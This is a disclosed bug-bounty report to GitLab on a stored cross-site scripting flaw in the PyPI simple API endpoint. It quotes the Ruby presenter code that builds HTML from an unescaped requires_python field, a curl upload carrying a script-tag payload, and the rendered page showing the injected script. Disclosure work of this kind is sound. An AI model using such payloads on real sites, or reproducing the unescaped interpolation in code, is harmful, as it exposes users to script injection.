 # Stored XSS on PyPi simple API endpoint

## Report Details
- **Report ID**: 856836
- **URL**: https://hackerone.com/reports/856836
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-04-23T04:29:54.270Z
- **Disclosed**: 2020-09-09T21:57:22.001Z

## Reporter
- **Username**: vakzz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
### Summary
The recently released PyPi package feature has a new endpoint at `/api/:version/projects/:id/packages/pypi/simple/*package_name` which exposes an HTML page listing the package versions. The `package_link`'s are generated using the following code:

[package_presenter.rb#L50](https://gitlab.com/gitlab-org/gitlab/-/blob/master/ee/app/presenters/packages/pypi/package_presenter.rb#L50)

```ruby
      def package_link(url, required_python, filename)
        "<a href=\"#{url}\" data-requires-python=\"#{required_python}\">#{filename}</a><br>"
      end
```

The only sanitation on `required_python` is that it is less than 50 characters (db constraint), otherwise arbitrary html can be injected.
### Steps to reproduce

1. Create project
1. Create a pypi package with `requires_python='"><script>alert(1)</script>'`

    ```bash
curl -v "https://__token__:$TOKEN@gitlab.com/api/v4/projects/18315917/packages/pypi" -F content=@/tmp/lala.txt -F requires_python=2.7 -F version=1 -F name='package_test_1' -F requires_python='"><script>alert(1)</script>'
    ````
1. Visit the simple api endpoint and see the injected code: https://gitlab.com/api/v4/projects/18315917/packages/pypi/simple/package_test_1

    ```html
        <!DOCTYPE html>
        <html>
          <head>
            <title>Links for package_test_1</title>
          </head>
          <body>
            <h1>Links for package_test_1</h1>
            <a href="https://gitlab.com/api/v4/projects/18315917/packages/pypi/files/lala.txt#sha256=" data-requires-python=""><script>alert(1)</script>">lala.txt</a><br>
          </body>
        </html>
    ```

Currently will be blocked by the csp on gitlab.com

### Impact
* An attacker could execute arbitrary javascript by sending a user or getting them to click on a url to the simple api endpoint 

### Examples
* https://gitlab.com/api/v4/projects/18315917/packages/pypi/simple/package_test_1

### What is the current *bug* behavior?
The user supplied fields used by the `package_presenter` are not all sanitized

### What is the expected *correct* behavior?
All of the user supplied fields in `package_presenter` should be sanitized before being turned into html

### Output of checks
This bug happens on GitLab.com

## Impact

* An attacker could execute arbitrary javascript by sending a user or getting them to click on a url to the simple api endpoint

## Attachments
No attachments
